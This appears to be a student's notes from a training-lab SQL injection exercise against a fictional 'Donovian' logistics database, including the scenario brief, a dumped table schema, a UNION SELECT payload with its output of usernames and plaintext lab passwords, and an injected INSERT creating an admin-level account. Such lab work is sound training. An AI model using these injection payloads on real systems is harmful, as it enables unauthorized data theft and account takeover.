 # Donovian Database Exploitation (DWDBE)
XX Dec 2026
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver through network, identify and gather intelligence from the Donovian Logistics Agency database.

Tools/Techniques: All connections will be established through web browser to donovian-nla. SSH masquerade to Donovian_Webserver with provide credentials. Ports in use will be dependent on target location and are subject to change. Web exploitation techniques are limited to SQLi injections. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = 5QL1nj3ct5t@rt0F@ct1v1ty

Prior Approvals: SQLi injects through web browser. Creation of database administrator account if directed to. Any connection to donovian-nla other than HTTP/HTTPs is NOT approved.

## Scheme of Maneuver:
>Jump Box
->T1:10.100.28.48

## Target Section:

T1
Hostname: donovian-nla
IP: 10.100.28.48
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
Last Known HTTP Port: 80
PSP: Unknown
Malware: Unknown
Action: Conduct approved SQLi Exploitation techniques to collect intelligence.

categories	id	3.00
categories	name	3.00
categories	description	3.00

members	id	3.00
members	username	3.00
members	password	3.00
members	first_name	3.00
members	last_name	3.00
members	email	3.00
members	permission	3.00

orderlines	id	3.00
orderlines	quantity	3.00
orderlines	product	3.00
orderlines	order	3.00

orders	id	3.00
orders	date	3.00
orders	member	3.00

payments	id	3.00
payments	creditcard_number	3.00
payments	date	3.00
payments	order	3.00

permissions	id	3.00
permissions	level	3.00
permissions	name	3.00
permissions	description	3.00

products	id	3.00
products	name	3.00
products	description	3.00
products	price	3.00
products	qty_left	3.00
products	category	3.00

share4	id	3.00
share4	comment	3.00
share4	mime	3.00
share4	data	3.00


union select username,password,permission from members#
## username, password, permission
Boss	CdOETQHZoOD0hPvReTMr	1.00
Maverick	turn&burn	3.00
phreak	pwd	4.00
Susan	flowers99	3.00
TW	imAPlaya	2.00
1-2-3-4	sayULuvM3	2.00
rich_kid	1M$	2.00
p0pStar	thrilla	2.00
Joe	vato	2.00
	flag:	4.00
hacker	password	3.00
	flag:	3.00

INSERT INTO members (first_name, last_name, username, password, email, permission) VALUES ('Hacker', 'hack4', 'hacker4', '123', '123@123', 1);#', '123', '123@123', 3) 
> hacker2', '123', '123@123', 1);#
